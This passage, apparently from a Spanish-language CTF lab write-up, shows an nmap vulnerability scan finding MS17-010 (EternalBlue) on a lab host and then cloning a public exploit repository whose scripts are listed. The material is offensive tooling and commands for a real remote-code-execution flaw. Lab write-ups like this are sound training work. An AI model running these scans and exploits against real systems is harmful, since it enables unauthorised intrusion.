
## EXPLOTACION [#](#explotación) {#explotación}


Vamos a comenzar utilizando los scripts internos de nmap `vuln and safe`, para activar el escaneo de vulnerabilidades de forma segura.

```bash
❯ nmap --script "vuln and safe" -p445 10.10.10.40 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-18 03:07 GMT
Nmap scan report for 10.10.10.40
Host is up (0.13s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 4.50 seconds
```

El escaneo nos reporta que el servicio es vulnerable a `MS17-010` que corresponde a una ejecución remota de comandos.

Para explotar esta vulnerabilidad vamos a usar un `exploit` del repositorio de github de worawit:

* [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)

Vamos a clonar el repositorio y dentro observaremos varios scripts en `python`.

```bash
❯ git clone https://github.com/worawit/MS17-010
Clonando en 'MS17-010'...
remote: Enumerating objects: 183, done.
remote: Total 183 (delta 0), reused 0 (delta 0), pack-reused 183
Recibiendo objetos: 100% (183/183), 113.61 KiB | 476.00 KiB/s, listo.
Resolviendo deltas: 100% (102/102), listo.
❯ cd MS17-010
❯ ls
 shellcode    eternalblue_exploit7.py   eternalchampion_leak.py   eternalromance_leak.py   eternalsynergy_leak.py   mysmb.py         zzz_exploit.py
 BUG.txt      eternalblue_exploit8.py   eternalchampion_poc.py    eternalromance_poc.py    eternalsynergy_poc.py    npp_control.py  
 checker.py   eternalblue_poc.py        eternalchampion_poc2.py   eternalromance_poc2.py   infoleak_uninit.py       README.md
```
